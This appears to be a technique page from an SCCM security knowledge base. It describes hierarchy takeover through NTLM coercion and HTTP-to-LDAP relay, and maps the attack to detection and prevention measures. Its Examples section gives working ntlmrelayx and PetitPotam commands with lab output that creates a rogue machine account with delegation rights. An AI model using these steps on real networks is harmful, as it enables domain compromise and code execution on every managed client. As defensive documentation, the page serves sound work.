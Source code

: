 # TAKEOVER-8
## Description
Hierarchy takeover via NTLM coercion and relay HTTP to LDAP on domain controller

## MITRE ATT&CK TTPs
- [TA0004](https://attack.mitre.org/tactics/TA0004) - Privilege Escalation

## Requirements

### Coercion
- Valid Active Directory domain credentials
- Connectivity to SMB (TCP/445) on a coercion target:
    - TAKEOVER-8.1: Coerce primary site server
    - TAKEOVER-8.2: Coerce SMS Provider
    - TAKEOVER-8.3: Coerce passive site server
    - TAKEOVER-8.4: Coerce site database server
- Connectivity from the coercion target to any port on the relay server
- The relay server is in the intranet zone and has a valid NetBIOS name or FQDN (e.g., via ADIDNS poisoning if using a network implant)
- Coercion target settings:
    - The `WebClient` service is installed and started [INSTALLED BY DEFAULT ON WINDOWS WORKSTATIONS]
    - `BlockNTLM` = `0` or not present, or = `1` and `BlockNTLMServerExceptionList` contains attacker relay server [DEFAULT]
    - `RestrictSendingNTLMTraffic` = `0`, `1`, or not present, or = `2` and `ClientAllowedNTLMServers` contains attacker relay server [DEFAULT]
    - Domain computer account is not `is sensitive and cannot be delegated` [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains coercion target [DEFAULT]

### Relay
- Connectivity from the relay server to LDAP or LDAPS on the relay target, the domain controller
- Relay target settings:
    - Either LDAP signing or channel binding is not required on the domain controller [DEFAULT]
    - `RestrictReceivingNTLMTraffic` = `0` or not present [DEFAULT]
- Domain controller settings:
    - `RestrictNTLMInDomain` = `0` or not present, or is configured with any value and `DCAllowedNTLMServers` contains relay target [DEFAULT]
    - `LmCompatibilityLevel` < `5` or not present, or = `5` and LmCompatibilityLevel >= `3` on the coercion target [DEFAULT]

- For resource-based constrained delegation:
    - Control of an account's SPN

        OR

    - `MachineAccountQuota` > `0` and domain users permitted to add computer accounts [DEFAULT]

## Summary
An attacker who is able to successfully coerce NTLM authentication from the Active Directory domain computer account for a primary site server, system hosting the SMS Provider role, or passive site server via HTTP and relay it to LDAP on a domain controller can conduct resource-based constrained delegation (RBCD) or shadow credentials attacks to compromise the server, then connect to:
- MSSQL on the site database as the site server or SMS Provider (see [TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- SMB on the site database as the site server (see [TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the SMS Provider as the site server (see [TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the primary site server as a passive site server, or vice versa (see [TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

The attacker can use these permissions to grant an arbitrary domain account the SCCM "Full Administrator" role.

## Impact
The "Full Administrator" security role is granted all permissions in Configuration Manager for all scopes and all collections. An attacker with this privilege can execute arbitrary programs on any client device that is online as SYSTEM, the currently logged on user, or as a specific user when they next log on. They can also leverage tools such as CMPivot and Run Script to query or execute scripts on client devices in real-time using the AdminService or WMI on an SMS Provider.

## Defensive IDs
- [DETECT-1: Monitor site server domain computer accounts authenticating from another source](../../../defense-techniques/DETECT/DETECT-1/detect-1_description.md)
- [PREVENT-11: Disable and uninstall WebClient on site servers](../../../defense-techniques/PREVENT/PREVENT-11/prevent-11_description.md)
- [PREVENT-13: Require LDAP channel binding and signing](../../../defense-techniques/PREVENT/PREVENT-13/prevent-13_description.md)
- [PREVENT-16: Remove SeMachineAccountPrivilege and set MachineAccountQuota to 0 for non-admin accounts](../../../defense-techniques/PREVENT/PREVENT-16/prevent-16_description.md)
- [PREVENT-20: Block unnecessary connections to site systems](../../../defense-techniques/PREVENT/PREVENT-20/prevent-20_description.md)

## Subtechniques
- TAKEOVER-8.1: Coerce primary site server
- TAKEOVER-8.2: Coerce SMS Provider
- TAKEOVER-8.3: Coerce passive site server
- TAKEOVER-8.4: Coerce site database server

## Examples
The steps to execute TAKEOVER-8.1 through TAKEOVER-8.4 are mostly the same except that a different system is targeted for coercion of NTLM authentication.

1. On the attacker relay server, start `ntlmrelayx`, targeting the IP address of the domain controller and the LDAPS service and specifying options to conduct a resource-based constrained delegation attack:
    ```
    # impacket-ntlmrelayx --no-smb-server --no-wcf-server --no-raw-server -ts -ip <NTLMRELAY_LISTENER_IP> -t ldaps://<DOMAIN_CONTROLLER_IP> --http-port 8080 --no-da --delegate-access
    Impacket v0.11.0 - Copyright 2023 Fortra

    [2024-02-28 20:31:35] [*] Protocol Client MSSQL loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client LDAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client RPC loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client HTTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client IMAPS loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMTP loaded..
    [2024-02-28 20:31:36] [*] Protocol Client SMB loaded..
    [2024-02-28 20:31:36] [*] Protocol Client DCSYNC loaded..
    [2024-02-28 20:31:38] [*] Running in relay mode to single host
    [2024-02-28 20:31:38] [*] Setting up HTTP Server on port 8080

    [2024-02-28 20:31:38] [*] Servers started, waiting for connections
    ```

3. From the attacker host, coerce NTLM authentication from the coercion target via HTTP, targeting the relay server's IP address and the specified port:
    ```
    # python3 PetitPotam.py -d MAYYHEM.LOCAL -u lowpriv -p <PASSWORD> <NTLMRELAYX_NETBIOSNAME>@8080/a <COERCION_TARGET_IP>

    Trying pipe lsarpc
    [-] Connecting to ncacn_np:192.168.57.50[\PIPE\lsarpc]
    [+] Connected!
    [+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
    [+] Successfully bound!
    [-] Sending EfsRpcOpenFileRaw!
    [-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
    [+] OK! Using unpatched function!
    [-] Sending EfsRpcEncryptFileSrv!
    [+] Got expected ERROR_BAD_NETPATH exception!!
    [+] Attack worked!
    ```

    After a few seconds, you should receive an HTTP connection on the relay server that is forwarded to the domain controller to execute the RBCD attack:
    ```
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, attacking target ldaps://192.168.57.100
    [2024-02-28 21:01:54] [*] HTTPD(8080): Authenticating against ldaps://192.168.57.100 as MAYYHEM/SITE-SERVER$ SUCCEED
    [2024-02-28 21:01:54] [*] Enumerating relayed user's privileges. This may take a while on large domains
    [2024-02-28 21:01:54] [*] HTTPD(8080): Connection from 192.168.57.50 controlled, but there are no more targets left!
    [2024-02-28 21:01:55] [*] Attempting to create computer in: CN=Computers,DC=MAYYHEM,DC=LOCAL
    [2024-02-28 21:01:55] [*] Adding new computer with username: FCDQZAOC$ and password: OHG^rQ.yl8KcFAC result: OK
    [2024-02-28 21:01:55] [*] Delegation rights modified succesfully!
    [2024-02-28 21:01:55] [*] FCDQZAOC$ can now impersonate users on SITE-SERVER$ via S4U2Proxy
    ```

4. Obtain a service ticket for the created or specified account with an SPN, impersonating the coercion target.

5. Pass the ticket, access the coercion target, escalate to `SYSTEM`, and connect to:
- MSSQL on the site database as a site server or SMS Provider ([TAKEOVER-1](../TAKEOVER-1/takeover-1_description.md))
- AdminService on an SMS Provider as a site server ([TAKEOVER-2](../TAKEOVER-2/takeover-2_description.md))
- SMB on the site database or an SMS Provider as a site server ([TAKEOVER-6](../TAKEOVER-6/takeover-6_description.md))
- SMB on the site database server or an SMS Provider as itself
- SMB on the site server as a passive site server, or vice versa ([TAKEOVER-7](../TAKEOVER-7/takeover-7_description.md))

## References
- Chris Thompson, [Coercing NTLM Authentication from SCCM Servers](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a)
- Elad Shamir, [Wagging the Dog: Abusing Resource-based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
- Garrett Foster, [SCCM Hierarchy Takeover with High Availability](https://posts.specterops.io/sccm-hierarchy-takeover-with-high-availability-7dcbd3696b43)
